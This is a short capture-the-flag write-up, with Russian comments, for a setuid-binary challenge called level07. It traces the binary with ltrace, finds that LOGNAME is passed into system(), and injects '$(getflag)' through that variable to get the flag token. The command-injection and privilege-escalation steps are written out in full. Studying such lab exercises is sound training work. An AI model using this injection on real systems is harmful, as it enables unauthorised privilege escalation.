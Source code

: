 ```
ls -l
```
> total 12\
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07

```
ltrace ./level07
```
> \_\_libc_start_main(0x8048514, 1, 0xbffff7b4, 0x80485b0, 0x8048620 <unfinished ...>\
getegid()                                                                                                     = 2007\
geteuid()                                                                                                     = 2007\
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                           = 0\
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                           = 0\
getenv("LOGNAME")                                                                                             = "level07" <------ `Видно что тут берется переменная из LOGNAME`\
asprintf(0xbffff704, 0x8048688, 0xbfffff33, 0xb7e5ee55, 0xb7fed280)                                           = 18\
system("/bin/echo level07 "level07\
 <unfinished ...>\
--- SIGCHLD (Child exited) ---\
<... system resumed> )                                                                                        = \
+++ exited (status 0) +++

Пробуем ее подменить
```
export LOGNAME=ls;
./level07
```
> ls

Пробуем подменить ее на код, который выполнится

```
export LOGNAME=$(ls -l);
./level07
```
> total 12\
sh: 2: -rwsr-sr-x: not found

Код выполняется, а значит даем ему getflag

```
export LOGNAME=$(getflag)
./level07
```
> Check flag.Here is your token :\
sh: 2: Syntax error: ")" unexpected

```
export LOGNAME='$(getflag)'
./level07
```
> Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
